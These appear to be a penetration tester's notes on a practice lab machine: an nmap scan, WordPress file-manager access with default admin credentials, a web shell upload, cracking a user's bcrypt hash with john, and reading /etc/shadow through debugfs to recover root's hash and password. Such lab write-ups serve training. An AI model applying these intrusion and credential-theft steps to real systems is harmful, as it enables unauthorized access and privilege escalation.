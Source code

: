 ______

> [!info]
> IP=192.168.247.16

# Nmap
| PORT | STATE | SERVICE |
| ---- | ---- | ---- |
| 22/tcp | open | ssh |
| 80/tcp | open | http |

```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80 - http
- wordpress

/filemanager
	admin:admin

![[Pasted image 20240204214945.png]]

upload shell.php

# PrivEsc

![[Pasted image 20240204220146.png]]

```txt
dora:$2a$08$zyiNvVoP/UuSMgO2rKDtLuox.vYj.3hZPVYq3i4oG3/CtgET7CjjS
```

```bash
john --wordlist=/usr/share/seclists/rockyou.txt hash
doraemon
```

## disk
```bash
df -h
debugfs /dev/mapper/ubuntu--vg-ubuntu--lv
debugfs: cat /etc/shadow

root:$6$AIWcIr8PEVxEWgv1$3mFpTQAc9Kzp4BGUQ2sPYYFE/dygqhDiv2Yw.XcU.Q8n1YO05.a/4.D/x4ojQAkPnv/v7Qrw7Ici7.hs0sZiC.:19453:0:99999:7:::
```

root:explorer





